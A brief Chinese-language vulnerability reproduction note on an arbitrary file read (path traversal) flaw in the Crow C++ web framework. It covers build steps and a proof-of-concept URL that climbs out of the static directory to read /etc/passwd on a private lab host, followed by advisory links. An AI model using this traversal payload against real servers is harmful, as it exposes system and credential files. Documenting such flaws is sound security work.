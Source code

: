 dpkg -i 进行安装
安装失败请安装依赖
apt install libboost-all-dev
apt --fix-broken install


### 编译参数
```shell
g++ -o main main.cpp -lpthread
```




### 任意文件读取漏洞
默认static为静态文件服务路径
```shell
http://172.16.70.11:18080/static/../../../../../../../../../etc/passwd
```
![](./images/1-passwd.jpg)

### 参考链接
https://cn-sec.com/archives/913502.html
https://security.snyk.io/vuln/SNYK-UNMANAGED-CROW-2336163
https://crowcpp.org/master/guides/static/
https://gitee.com/ASCIPHX/crow
https://www.lightsmile.cn/blog/articles/使用crow构建web服务/
https://blog.csdn.net/qq_21567767/article/details/105911906